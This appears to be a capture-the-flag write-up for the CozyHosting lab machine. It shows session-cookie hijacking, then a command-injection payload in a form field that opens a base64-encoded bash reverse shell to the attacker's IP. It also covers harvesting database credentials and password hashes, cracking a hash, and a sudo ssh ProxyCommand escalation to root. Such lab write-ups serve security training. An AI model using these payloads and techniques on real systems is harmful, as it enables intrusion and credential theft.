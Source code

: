 # Recon
http://cozyhosting.htb
http://cozyhosting.htb/login

http://cozyhosting.htb/actuator/sessions

we can fin here user kanderson
{"73FE7C7FC5726B0E586C0739F07F7B78":"UNAUTHORIZED","FDD106AD96CE21D9562D65CC9C37D924":"kanderson"}

this is cookie:username 

we use the cookie in navigator to connect

once on the admin dashboard there is a connexion to host that we can use 
it post to /executessh

so we try to bypass this by sending a payload into username
```
echo "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1" | base64 -w 0
```
we need a oneliner so we will use the ; at the begining and the end of the line and ${IFS%??} for spaces
```
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNS80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
then urlencode and send it with the username
```
host=toto&username=%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNS80NDQ0IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

full post
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 239
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin?error=Host%20key%20verification%20failed.
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=D3405AFE3DB1921DA44942FEBCFD54D5
Connection: close

host=toto&username=%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNS80NDQ0IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

we are "app" user
there is /home/josh so we need password for ssh to jos

on the home of apps we can find a cloudhosting.jar which is same as a .tar so we jar xvf cloudhosting.jar the archive
in BOOT-INF\classes\application.properties we can find some usefull postgres credentials 
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR

-[ RECORD 1 ]----------------------------------------------------------
name     | kanderson
password | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
role     | User
-[ RECORD 2 ]----------------------------------------------------------
name     | admin
password | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
role     | Admin

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm cracked = manchesterunited

ssh josh@cozyhosting.htb
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
https://gtfobins.github.io/gtfobins/ssh/#sudo
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

rooted
